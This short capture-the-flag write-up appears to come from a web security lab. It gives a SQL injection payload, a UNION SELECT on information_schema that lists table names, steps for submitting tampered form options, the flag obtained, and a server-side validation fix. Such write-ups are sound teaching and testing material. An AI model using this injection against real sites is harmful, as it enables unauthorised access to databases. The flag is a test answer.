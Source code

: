 # Where:
    /?page=searchimg
# How:
    -By entering
    ```-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()```
    -Change the value of 1 of the options to an invalid value.
    Or
    -Add an invalid option.
    -Select the invalid value
    -Receive the flag
# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).